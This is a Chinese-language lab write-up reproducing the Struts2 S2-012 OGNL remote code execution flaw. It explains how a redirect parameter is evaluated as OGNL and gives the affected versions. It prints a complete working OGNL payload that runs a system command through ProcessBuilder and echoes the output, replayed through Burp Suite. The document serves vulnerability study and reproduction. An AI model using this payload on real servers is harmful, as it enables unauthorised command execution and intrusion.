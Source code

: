 # Struts2_012_远程代码执行

###### by ADummy

### 0x00利用路线

​			burpuite抓包--->修改payload--->重放包--->代码执行--->有回显

### 0x01漏洞介绍

​		如果在配置 Action 中 Result 时使用了重定向类型，并且还使用 ${param_name} 作为重定向变量，例如：

```java
<package name="S2-012" extends="struts-default">
    <action name="user" class="com.demo.action.UserAction">
        <result name="redirect" type="redirect">/index.jsp?name=${name}</result>
        <result name="input">/index.jsp</result>
        <result name="success">/index.jsp</result>
    </action>
</package>
```

这里 UserAction 中定义有一个 name 变量，当触发 redirect 类型返回时，Struts2 获取使用 ${name} 获取其值，在这个过程中会对 name 参数的值执行 OGNL 表达式解析，从而可以插入任意 OGNL 表达式导致命令执行。

​			影响版本

  		2.0.0 - 2.3.13

### 0x02漏洞复现

#### payload：

%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"**id**"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}

（需要对payload进行url编码）

​			登录界面

![S2_012_rce_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/S2_012_rce_1.png)

​			Burpsuite改包重放，有回显，发现id被执行

![S2_012_rce_2](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/S2_012_rce_2.jpg)



### 0x03参考资料

https://www.cnblogs.com/Feng-L/p/13644856.html

https://blog.csdn.net/qq_29647709/article/details/84950274